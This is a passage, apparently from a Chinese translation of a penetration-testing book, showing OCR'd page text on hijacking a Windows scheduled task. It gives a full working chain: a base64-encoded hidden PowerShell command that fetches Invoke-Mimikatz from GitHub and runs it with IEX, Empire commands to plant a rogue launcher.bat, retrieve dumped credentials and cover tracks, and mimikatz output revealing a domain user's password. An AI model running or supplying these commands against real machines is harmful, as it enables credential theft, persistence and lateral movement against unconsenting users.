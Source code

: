 太好了！所有用户对目录“ C:\Apps\screensaver \”都具备完全控制权限（“ F”权限）。我们可以通过将“launcher.bat”文件替换为自己的脚本，来达到劫持计划任务的目的。例如，编写一个脚本，运行 Mimikatz 并将密码转储到本地文件（c:\users\john\appdata \local\temp\pass\_file.txt）。

跟之前一样，将这段代码用base64编码，具体步骤这里不再赘述：

```text
PS> $command = '$browser = New-Object System.Net.WebClient;$browser.Proxy.Credentials =[System.Net.CredentialCache]::DefaultNetworkCredential;IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"));invoke-mimikatz | out-file c:\users\john\appdata\local\temp\pass_file.txt'

PS>    $bytes    = [System.Text.Encoding]::Unicode.GetBytes($command)
PS>    $encodedCommand    = [Convert]::ToBase64String($bytes)
PS> write-host $encodedCommand JABiAHIAbwB3AHMAZQByACAAPQAgAE4AZQB3A
```

以下是脚本“ launcher\_me.bat”的内容，该脚本最终在 John 的终端上运行： `Powershell.exe -NonI -W Hidden -enc JABiAHIAbwB3AHMAZQByACAAPQAgAE4AZQB3A`

通过 Empire 将该脚本上传到目标文件夹：

```text
(Empire: john) > shell cd c:\apps\screensaver\
(Empire: john) > upload /root/launch_me.bat
```

最后，我们将脚本伪装成新的launcher.bat。

```text
(Empire: john) > shell move launcher.bat launcher_old.bat
(Empire: john) > shell move launcher_me.bat launcher.bat
```

接下来就是等待了；可能时几个小时，也可能是一两天。最终，当 John 再次登录\[72\]时，就能拿到我们要的文件了（当然，还要清理一些无关数据）：

```text
(Empire: john2) > shell download c:\users\john\appdata\local\temp\pass_file.txt 
(Empire: john2) > shell del launcher.bat 
(Empire: john2) > shell move launcher_old.bat launcher.bat

FrontGun$ cat pass_file.txt

Hostname: FRPC073.sph.corp / -
.#####.    mimikatz 2.1 (x64) built on Mar 31 2016 16:45:32
.## ^ ##. "A La Vie, A L'Amour" ## / \ ## /* * *
##    \    /    ##    Benjamin    DELPY    `gentilkiwi`    ( benjamin@gentilkiwi.com )
'## v ##'    http://blog.gentilkiwi.com/mimikatz (oe.eo)
'#####'    with 18 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 11506673 (00000000:00af93f1) Session    : Interactive from 2
User Name    : john
Domain    : SPH
Logon Server    : FRSV073
Logon Time    : 16/01/2017 8:40:50 AM
SID    : S-1-5-21-2376009117-2296651833- 4279148973-1124
[…]

kerberos :
    *    Username : john
    *    Domain    : SPH.CORP
    *    Password : JP15XI$ 
    ssp :
    credman :
    […]

    […] 
kerberos :
```